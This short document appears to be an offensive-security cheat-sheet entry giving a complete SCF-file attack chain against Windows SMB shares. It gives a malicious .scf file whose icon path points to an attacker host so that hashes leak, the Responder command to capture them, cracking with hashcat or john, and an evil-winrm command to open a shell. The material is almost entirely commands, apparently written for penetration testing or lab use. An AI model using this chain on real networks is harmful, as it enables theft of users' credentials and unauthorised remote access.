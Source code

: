 #### Upload `.scf` file to a SMB share
```
[Shell]
Command=2
IconFile=\\attack.ip\tools\nc.ico
[Taskbar]
Command=ToggleDesktop
```
#### Start responder
```
sudo responder -w -I tun0
```
#### Wait for a victim hash
Use hashcat or john
#### Use evilwin-rm to get shell
```
evilwin-rm -i ip -u user -p password
```